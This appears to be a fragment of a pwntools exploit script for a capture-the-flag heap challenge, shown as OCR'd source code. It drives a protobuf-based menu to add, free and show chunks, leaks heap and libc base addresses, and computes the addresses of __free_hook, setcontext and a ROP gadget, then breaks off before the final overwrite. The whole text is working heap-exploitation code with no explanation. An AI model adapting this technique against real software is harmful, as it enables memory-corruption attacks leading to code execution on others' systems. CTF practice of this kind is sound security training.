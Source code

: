```python
libc = ELF(libcname)

context.log_level = 'debug'
context.arch = 'amd64'
context.binary = elfname




r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
uu32 = lambda data: u32(data.ljust(4, '\x00'))
uu64 = lambda data: u64(data.ljust(8, '\x00'))

loginfo = lambda tag, addr: log.success(tag + " -> " + hex(addr))
cont = pp_pb2.devicemsg()
def add(idx,size,mem):
    cont.actionid=2
    cont.msgidx=idx*2
    cont.msgsize=size
    cont.msgcontent=mem
    sa("now:",cont.SerializeToString())
def delete(idx):
    cont.actionid = 8
    cont.msgidx = idx * 2
    cont.msgsize=4
    cont.msgcontent='a'
    sa("now:",cont.SerializeToString())
def show(idx):
    cont.actionid = 6
    cont.msgidx = idx * 2
    sa("now:",cont.SerializeToString())
def edit(idx,size,mem):
    cont.actionid = 4
    cont.msgidx = idx * 2
    cont.msgsize = size
    cont.msgcontent = mem
    sa("now:", cont.SerializeToString())
for i in range(9):
    add(i+1,0x80,'a'*0x80)
for i in range(9,0,-1):
    delete(i)
show(2)
ru('\n')
p.recv(0x38)
heapaddr=u64(p.recv(6).ljust(8,'\x00'))-0x540
loginfo("heap",heapaddr)
p.recv(0x1a)
libcbase=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc10
loginfo("libc",libcbase)
freehook=libcbase+libc.sym['__free_hook']
setcontext=libcbase+libc.sym['setcontext']

gadget=0x0000000000151990+libcbase
```
